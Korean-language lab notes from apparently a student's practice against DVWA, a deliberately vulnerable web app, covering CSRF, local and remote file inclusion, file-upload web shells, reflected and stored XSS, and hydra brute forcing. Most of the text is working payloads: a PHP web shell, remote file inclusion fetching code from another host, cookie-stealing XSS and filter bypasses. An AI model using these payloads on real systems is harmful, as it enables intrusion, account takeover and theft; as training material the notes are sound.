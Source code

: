 
IP : 192.168.56.110

# DVWA(CSRF(Cross Site Request Forgery))
CSRF(Cross Site Request Forgery) : 사이트 간 요청 대행
네이버 또는 구글 메일
메일 쓰기
HTML
`<p><img src="http://192.168.56.150/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change"><br></p>

# DVWA(File Inclusion)
## security : low
http://192.168.56.150/vulnerabilities/fi/?page=/etc/passwd
	/etc/passwd 파일 읽을 수 있음
systemctl start apache2
vi /var/www/html/rfi.txt
	<?php
	system('uname -a; id');
	?>
http://192.168.56.150/vulnerabilities/fi/?page=http://192.168.56.102/rfi.txt
## security : medium
http://192.168.56.150/vulnerabilities/fi/?page=/etc/passwd
	가능
http://192.168.56.150/vulnerabilities/fi/?page=http://192.168.56.102/rfi.txt
	불가능
페이지 소스
	http://, https:// 를 ""으로 대체
http://192.168.56.150/vulnerabilities/fi/?page=http://192.168.56.102/rfi.txt
	가능
http://192.168.56.150/vulnerabilities/fi/?page=htthttp://p://192.168.56.102/rfi.txt
	가능
## security : high
!fnmath("file*", $file) && $file != "include.php"
http://192.168.56.150/vulnerabilities/fi/?page=file:///etc/passwd
	가능
## security : impossible
http://192.168.56.150/vulnerabilities/fi/?page=file:///etc/passwd
	불가능
file 1 ~ 3 을 지정하여 다른 파일은 실행 못하게 설정함.
같은 이름을 가진 파일을 업로드하여 실행하도록 할 수 있음

# DVWA(File Upload)
## security : low
jpg 파일 업로드 가능
../../hackable/uploads/m2ashell.php.jpg
php 파일 업로드 가능
cp /var/www/html/rfi.txt /home/kali/fu.php
vi /home/kali/fu.php
	`<pre>`
	`<?php`
	`system($_GET['cmd']);`
	`?>`
	`</pre>`
fu.php 파일 업로드
http://192.168.56.150/hackable/uploads/fu.php?cmd=id
	가능
## security : medium
jpg 파일 업로드 가능 / php 파일 업로드 불가능
cp /home/kali/fu.php /home/kali/fu.php.jpg
fu.php.jpg 업로드할 때 burp suite로 intercept
	filename="fu.php"로 변경
	forward
	업로드 완료
## security : high
확장자뿐만 아니라 size도 확인
실제 이미지 다운
jpeg으로 저장
exiftool /home/kali/Downloads/cat.jpeg
`exiftool -w ~:<?php system('id'); ?>
## security : impossible
type까지 확인

# DVWA(Insecure CAPTCHA)
API 인증키를 등록

# DVWA(XSS(Reflected))
## security : low
`<script>alert(document.cookie)</script>
## security : medium
`<SCRIPT>alert("hack")</SCRIPT>
## security : high
`'/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', ''
	대소문자 모두 공백으로 대체
	`<img src=x onerror=alert(document.cookie)>
## security : impossible
`<img src=x onerror=alert(document.cookie)>
	Hello `<img src=x onerror=alert(document.cookie)>
htmlspecialchars : 특수문자를 치환하여 일반문자로 취급
	< : &lt;
	> : &gt;
	
# DVWA(XSS(Stored))
## security : low
f12 -> Inspector
	maxlength 삭제
Name : `<script>alert("Hack")</script>
	`<img src=x onerror=alert(document.cookie)>
Message : `<script>alert(document.cookie)</script>
	`<svg onload=alert('XSS TEST')>
	`<body topmargin=0 leftmargin=0 onload="document.body.innerHTML='<iframe width=100% height=800 src=www.daum.net/></iframe>',">
		인터넷이 된다면 외부의 웹사이트 출력 가능
## security : medium
`<script>alert('Test')</script>
	안됨
페이지 소스
	name : `<script> 대체
Name : `<img src=x onerror=alert(document.cookie)>
Message :`<svg onload=alert('SVG_Test')>
## security : high
Name : `<img src=x onerror=alert(document.cookie)>
페이지 소스
	`'/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', ''
## security : impossible
토큰 사용
입력에 대해 검증

# DVWA(Brute Force)
무작위 대입
vi weakuser.txt
	root
	spring
	winter
	dragon
	admin
	administrator
hydra 192.168.56.150 http-form-get "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: security=low;PHPSESSID=쿠키값:Username and/or password incorrect." -L weakuser.txt -P weakpass.txt
